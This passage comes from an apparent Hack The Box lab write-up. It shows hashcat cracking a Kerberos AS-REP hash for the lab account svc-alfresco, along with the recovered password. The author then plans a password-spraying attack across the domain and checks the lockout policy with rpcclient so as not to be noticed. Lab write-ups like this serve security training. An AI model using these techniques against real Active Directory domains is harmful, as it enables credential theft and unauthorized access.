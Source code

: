 ```
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5asrep$23$svc-alfresco@HTB.LOCAL:f05a2b15c6dde44f6d8830c5b0627b34$350048b7786adbdbfe6ac933a80e9488f0a89da3a342c4c49d8ab1161ea628ed24c25a4d07443b5b8db2d60832e686d793651528fa447e8c9abb916be6d4f9a17836a6ec52eed66211cfed3a4aa130e6c065c14965246f640b6e97c49e0cc40b336abc3b297c9d4297079237b69f39731f77cded12c8d3c262ffd7648372953b695094a2bd221ac95b85af908033a3b2f2cd5e819313c3a04924a1be52fb660ce4485968744be4fa0ec1acc63353f110538615496cbfa765a03ad4e634f893dbd7966c89bdd6df0d328b6bd11b1af6ff046db8937bb6a564ba849c5c055b203d3882acc9d4b4:s3rvice

Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, AS-REP
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB.LOCAL:f05a2b15c6dde4...c9d4b4
Time.Started.....: Wed Sep 09 13:26:26 2020 (1 sec)
Time.Estimated...: Wed Sep 09 13:26:27 2020 (0 secs)
Guess.Base.......: File (..\wordlists\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2781.2 kH/s (5.12ms) @ Accel:128 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4194304/14344385 (29.24%)
Rejected.........: 0/4194304 (0.00%)
Restore.Point....: 4063232/14344385 (28.33%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: sadecheverri -> rogans
Hardware.Mon.#1..: Temp: 52c Util: 29% Core:1410MHz Mem:3500MHz Bus:16

Started: Wed Sep 09 13:26:18 2020
Stopped: Wed Sep 09 13:26:29 2020
```

Success! It turns out that `svc-alfresco`'s password was `s3rvice`. At this point, I figured I might as well try a password spraying attack with this password against every single user within the Active Directory domain. But first, it is important to check the Active Directory account lockout policy so that I don't end up locking out any users by accident which would blow my cover and make me look really bad during a real pentest engagement.


### Active Directory Account Lockout Policy

There are a couple of ways to check the Active Directory account lockout policy. The first method is to use RPC/NetBIOS to check the password policy for a given RID. A RID represents a user identity in Windows. In the case below, `0x47b` is the RID for the `svc-alfresco` user.

```
rpcclient $> getusrdompwinfo 0x47b
    &info: struct samr_PwInfo
        min_password_length      : 0x0007 (7)
        password_properties      : 0x00000000 (0)
               0: DOMAIN_PASSWORD_COMPLEX
               0: DOMAIN_PASSWORD_NO_ANON_CHANGE
               0: DOMAIN_PASSWORD_NO_CLEAR_CHANGE
               0: DOMAIN_PASSWORD_LOCKOUT_ADMINS
               0: DOMAIN_PASSWORD_STORE_CLEARTEXT
               0: DOMAIN_REFUSE_PASSWORD_CHANGE
```
